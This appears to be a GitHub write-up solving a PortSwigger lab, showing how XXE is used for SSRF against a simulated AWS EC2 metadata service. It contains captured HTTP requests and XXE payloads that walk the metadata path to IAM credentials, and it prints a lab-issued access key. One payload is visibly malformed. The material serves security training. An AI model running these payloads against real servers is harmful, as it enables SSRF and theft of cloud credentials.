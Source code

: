 # Lab-02 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/27ddd09b-c759-465e-8783-efdf96e96d99)


## Overview :

#### Exploiting XXE to perform SSRF attacks

Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they **can be used to perform server-side request forgery (SSRF)**. This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

To exploit an XXE vulnerability to perform an SSRF attack, you need to **define an external XML entity using the URL that you want to target**, and **use the defined entity within a data value**. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform blind SSRF attacks (which can still have critical consequences).

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Solution :

> The lab server is running a (simulated) AWS EC2 metadata endpoint at the default URL, which is http://169.254.169.254/

#### Access the EC2 instance -

Clicking on checkstock , a request is sent as follows.

```xml
POST /product/stock HTTP/1.1
Host: 0a6b0074032a636f8001716f00660002.web-security-academy.net
Cookie: session=IO1xzxtsKi3p7KPymgSicKBsVEpCG8sT
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a6b0074032a636f8001716f00660002.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a6b0074032a636f8001716f00660002.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we declare a DOCTYPE with an external entitiy which fetches the url **http://169.254.169.254** from the backend system - `<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/"> ]>`


Then we can try to refer the entitiy `aws` in between the `<productID>` tags to fetch the url & return the response of the application.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aafdd39a-293e-4afd-b3a6-96a4942ad547)

We can see that it returned `latest` which is the starting path where we can get the **IAM secret access key**.

> http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME - Full path that returns the security credentials of that role.

We don't know what is the  **ROLE_NAME** here. So lets first fetch http://169.254.169.254/latest/meta-data/iam/security-credentials/

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b2afb661-82d2-42e9-a495-c7f1a0dca213)

We now got to know that the **ROLE_NAME is admin**. Include admin in the uri & send the request again.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9bee157e-c2f6-4f47-ad7c-a1b3a1597df6)

Now we got the secret access key from AWS EC2 - `Dzwohf7utghOfHiha9CFLAxKD6LurMKh4QrzaBCE`

And the has been solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/886c75d2-26e1-455c-ae34-c62a3b4f9293)












